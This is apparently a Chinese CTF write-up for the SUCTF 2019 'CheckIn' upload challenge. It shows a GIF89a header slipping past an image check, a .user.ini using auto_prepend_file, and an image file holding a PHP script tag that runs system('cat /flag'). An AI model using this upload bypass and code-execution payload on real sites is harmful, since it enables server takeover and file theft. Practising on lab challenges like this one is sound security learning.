



[题目链接](https://buuoj.cn/challenges#[SUCTF%202019]CheckIn)

## 过程




随便上传几个文件，发现会检测exif，尝试加上gif的exif头 `GIF89a` ，成功上传了。



可以看见，目录是随机的，但是名字是可以确定的。
通过 `index.php` 可以确定服务器的后端是 `php` 编写的。
虽然图片无法被直接执行，但是由于名字可以确定，我们可以尝试上传一些配置文件，比如 `.htaccess` `.user.ini`

这里尝试上传 `.user.ini` ：
```php
GIF89a
auto_prepend_file = catflag.jpg
```

紧接着上传 `catflag.jpg` ：
```php
<script language="php">system("cat /flag");</script>
```

`.user.ini` 不会被立即加载，需要等待几分钟

然后访问上传目录的 `index.php` ，就可以看到flag。




---

这道题能不能上传 `.php` 文件呢？
好吧上传了之后会显示非法后缀，或许这就是题目给 `index.php` 在上传目录的原因了吧。


